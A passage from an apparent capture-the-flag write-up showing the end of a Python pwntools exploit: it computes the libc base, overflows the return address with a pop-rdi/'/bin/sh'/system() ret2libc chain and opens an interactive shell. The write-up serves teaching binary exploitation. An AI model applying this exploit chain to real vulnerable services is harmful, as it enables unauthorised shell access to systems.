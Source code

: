 ```python
    libc.address  = printf_addr - libc.symbols["printf"]   # Calculate and set the libc address.

    # Create the exploit that overwrites ret. addr. with shellcode.
    exploit  = b"B" * (32+8)                               # Padding to get to ret.
    exploit += p64(libc.address + POP_RDI_RET)             # Gadget: pop rdi; ret;
    exploit += p64(next(libc.search(b"/bin/sh")))          # Pass /bin/sh.
    exploit += p64(libc.symbols["system"])                 # Call system().

    # Send the exploit.
    log.info("Delivering exploit.")
    p.recvuntil("safely?")
    p.sendline(exploit)

    # Interact with the shell.
    log.info("Spawning shell.")
    p.recvuntil("luck!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Launch the exploit and sure enough, we have a shell:

![img](https://irissec.xyz/uploads/2021-07-18/img04.png)

It's a textbook ret2libc attack.

## Reference

Writeup from https://irissec.xyz/articles/categories/binex/2021-07-18/Executing-a-Textbook-ret2libc-Attack-to-Pop-a-Shell